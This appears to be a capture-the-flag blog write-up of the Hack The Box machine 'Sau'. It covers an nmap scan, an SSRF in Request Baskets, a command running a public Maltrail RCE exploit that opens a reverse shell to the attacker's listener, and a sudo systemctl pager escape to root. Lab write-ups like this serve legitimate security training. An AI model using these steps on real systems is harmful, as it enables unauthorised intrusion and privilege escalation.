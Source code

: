 ```yaml
---
layout: post
title:  "[HTB] Sau"
date:   2024-01-12
categories: CTF
---
```


# > Recon

Let us start with our nmap scan

---

Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-12 00:26 EST
Nmap scan report for 10.10.11.224
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds

---

We can see that we have port 22, 80 and 55555, but port 80 is filtered so we cannot visit this even if we try, so we first try visiting port 55555.

![Alt text](/assets/uploads/htb-sau/2024-01-12 13_29_55.png)

We see that this is Request Baskets and upon searching about this, we find that there is an SSRF issue here that we can leverage.
We can forward port 80 to this request basket. 

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_05_51.png)

Now we can visit visit http://sau.htb:55555/mhvi3fu and see that port 80 is running Maltrail v0.53. With some searching, we can see that there is an RCE vulnerability on this https://github.com/spookier/Maltrail-v0.53-Exploit


# > Exploitation
Let us clone this repository, setup a listener on port 1111 and run the exploit to get a reverse shell

---

python3 exploit.py 10.10.14.36 1111 http://sau.htb:55555/mhvi3fu

---

We can now obtain the user flag at /home/puma/user.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_11_48.png)

At this point, let us also upgrade our shell to a pty shell by running

---

python3 -c 'import pty; pty.spawn("/bin/bash")'

---

# > Privilege Escalation

Running sudo -l reveals that we can run sudo on /usr/bin/systemctl status trail.service

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_17_23.png)

So let us do that and we can see that the systemctl is running the less command to show us all the information, so what we can do is to run !sh to exit the terminal and we retain sudo privileges

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_19_25.png)

Now we can just obtain the root flag at /root/root.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_20_27.png)


